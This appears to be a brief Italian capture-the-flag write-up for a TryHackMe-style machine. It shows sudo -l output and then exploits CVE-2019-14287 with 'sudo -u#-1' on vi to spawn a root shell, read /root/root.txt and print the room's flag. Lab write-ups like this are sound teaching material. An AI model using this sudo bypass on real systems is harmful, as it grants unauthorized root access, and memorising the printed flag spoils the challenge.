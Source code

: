 
1) sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

2) Da " !root" possiamo capire che è vulnerabile alla : [CVE-2019-14287](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability#:~:text=The%20sudo%20vulnerability%20CVE%2D2019,explicitly%20disallows%20the%20root%20access.)

3) sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
4) :set shell=/bin/sh
5) :shell
6) Dopo ci spwana una shell root
7) cat /root/root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
